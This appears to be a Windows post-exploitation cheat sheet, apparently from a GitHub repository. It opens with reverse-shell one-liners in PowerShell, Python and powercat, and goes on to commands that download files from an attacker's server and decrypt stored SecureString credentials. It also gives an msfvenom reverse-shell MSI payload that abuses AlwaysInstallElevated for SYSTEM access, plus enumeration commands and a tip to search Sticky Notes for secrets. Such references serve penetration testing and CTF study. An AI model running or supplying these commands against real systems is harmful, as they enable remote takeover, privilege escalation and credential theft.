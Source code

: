## getting a reverse shell:-
powershell -c "$client = New-Object System.Net.Sockets.TCPClient("IP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()" (via powershell)<br />
or<br />
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' (via python) 
or<br />
powercat -c "IP" -p PORT -e cmd.exe (via powercat)<br />
or<br />
simply use netcat
## first move to a powershell:-
powershell.exe

## then the obvious:-
whoami<br />
echo %username% (if whoami doesnt work) ONLY FOR CMD NOT FOR POWERSHELL<br />
$ENV:USERNAME (if whoami doesnt work) ONLY FOR POWERSHELL NOT FOR CMD<br />
whoami /priv<br />
net user<br />
net localgroup Administrators<br />
Get-ExecutionPolicy<br />
powershell.exe -ep bypass (to set execution policy to bypass)<br />
Get-Host | Select-Object Version (to check the whole version of powershell)<br />
$PSVersionTable.PSVersion.Major (to check the version of powershell)


## About the system and proccess running:-
systeminfo<br />
tasklist<br />
([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator) (to check if you r admin or not)<br />
(Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Lanmanserver\Parameters" -Name SMB1 -ErrorAction SilentlyContinue | Select-Object "SMB1") (to check for smb version 1)<br />

## Locate files in the whole drive
dir filename.extension /s (do it from C:\ folder)(supports regex)
dir /a /q (linux like ls -la, gives time modified as well as file owner)

## Show all folders and files including hidden ones
* `dir /a` - For cmd.exe
* `dir -force` - For powershell.exe
<br />

## To Download somthing from the internet or intranet:-
powershell.exe -command (New-Object System.Net.Webclient).DownloadFile("http://ip address/domain:port/file","download location's full path\programname.extension")<br />
powershell Invoke-Webrequest -OutFile 'Dstn path.Extension' -Uri http://ip address/domain:port/file

**Note**: 
    curl too works in powershell, except for windows-IoT and similar minimal installations <br />
#### usage example:
    curl http://<IP>:<PORT>/file_name > Output_filename     

## Decrypting Powershell SecureString (ONLY WORKS WHEN YOU ARE THE OWNER OF THE XML FILE)
### If you have a xml object file

$credential = Import-CliXml -Path  PathToXml\MyCredential.xml <br />
$credential.GetNetworkCredential().Password <br />

### If you have a single string

$secretStuff = Get-Content  -Path secretstuff.txt | ConvertTo-SecureString <br />
[Runtime.InteropServices.Marshal]::PtrToStringAuto([Runtime.InteropServices.Marshal]::SecureStringToBSTR((($secretStuff))))

## Checking and exploiting AlwaysInstallElevated Permission

To check if this permission is enabled or not

1. reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
2. reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

If both of these come 0x1 then that means the permissions is allowed.
If it is allowed then we can install any .msi file with system privelages so now we just need to make a payload from msfvenom like this "msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=2345 --encoder x64/xor --iterations 9 --format msi --out test.msi" and put it in the target box and simply execute it by not trigger the uac and any gui with this "msiexec /quiet /qn /i test.msi" and u get a shell on your listener

## Checking any remaing sticky keys

Sometimes users do put stuff in sticky keys which is stored in C:\Users\USER\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState

